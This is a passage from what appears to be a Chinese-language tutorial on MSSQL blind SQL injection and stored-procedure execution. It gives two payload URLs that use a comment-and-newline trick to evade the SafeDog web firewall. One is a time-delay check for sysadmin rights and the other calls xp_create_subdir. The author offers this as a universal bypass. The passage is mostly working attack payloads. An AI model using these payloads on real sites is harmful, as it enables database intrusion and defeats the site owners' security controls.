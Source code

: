 

### 0x03 盲注与储存过程

我们前面讲过mysql的一个绕过手法就是注释加换行，这个其实在mssql中也是成立的，所以直接构造payload

```
http://192.168.130.137/1.aspx?id=1--/*%0aif (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--%20*/

```

储存过程

```
http://192.168.130.137/1.aspx?id=1--/*%0aexec xp_create_subdir 'c:\text'--%20*/

```

你可以把当做万能bypass语句，里面的任何代码安全狗都不会拦截






# 文末

#### 本文如有错误，请及时提醒，避免误导他人

BY 404
